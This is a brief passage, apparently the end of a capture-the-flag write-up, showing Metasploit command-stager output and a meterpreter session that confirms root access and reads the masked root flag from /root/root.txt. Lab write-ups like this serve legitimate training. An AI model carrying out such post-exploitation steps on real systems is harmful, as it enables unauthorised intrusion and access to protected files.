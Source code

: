 ```
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > getuid
Server username: root
meterpreter > cat /root/root.txt
e***8
```
Thank you for reading 👋.

---
